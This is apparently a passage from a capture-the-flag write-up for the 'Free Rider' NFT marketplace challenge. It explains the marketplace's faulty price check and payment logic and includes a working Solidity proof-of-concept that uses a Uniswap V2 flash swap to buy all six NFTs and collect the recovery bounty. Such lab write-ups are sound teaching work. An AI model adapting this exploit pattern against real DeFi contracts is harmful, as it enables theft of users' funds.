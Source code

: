 This attack method exploits multiple vulnerabilities:

- The marketplace's incorrect price check allows buying all NFTs for the price of one.
- The faulty payment logic results in the attacker being paid for each NFT purchase.
- The flash loan provides the initial capital needed without requiring actual funds.

The end result is that the attacker acquires all NFTs, triggers the recovery process, and profits significantly, all starting with just 0.1 ETH.

## Proof of Concept (PoC)

### Core Implementation

To execute the attack, we create a custom contract called `FreeRiderAttack`. This contract implements the attack strategy and interacts with the Uniswap V2 pair, the marketplace, and the recovery manager.

The attack is executed in the following steps:

1. The `attack()` function is called, which initiates a flash swap from the Uniswap V2 pair.

2. The `uniswapV2Call()` function is then automatically called by Uniswap, where the main attack logic is implemented:

```solidity
function uniswapV2Call(address, uint256 amount0, uint256, bytes calldata) external {
    require(msg.sender == address(uniswapPair), "Unauthorized");

    // Unwrap WETH
    weth.withdraw(amount0);

    // Buy NFTs from marketplace
    uint256[] memory tokenIds = new uint256[](6);
    for (uint256 i = 0; i < 6; i++) {
        tokenIds[i] = i;
    }
    marketplace.buyMany{value: 15 ether}(tokenIds);

    // Transfer NFTs to recovery manager
    for (uint256 i = 0; i < 6; i++) {
        nft.safeTransferFrom(address(this), address(recoveryManager), i, abi.encode(player));
    }

    // Calculate repayment amount
    uint256 fee = (amount0 * 3) / 997 + 1;
    uint256 repayAmount = amount0 + fee;

    // Ensure we have enough ETH to repay
    require(address(this).balance >= repayAmount, "Not enough ETH to repay");

    // Wrap ETH to repay flash swap
    weth.deposit{value: repayAmount}();

    // Repay flash swap
    weth.transfer(address(uniswapPair), repayAmount);

    // Transfer remaining ETH to player
    uint256 remainingBalance = address(this).balance;
    if (remainingBalance > 0) {
        payable(player).transfer(remainingBalance);
    }
}
```
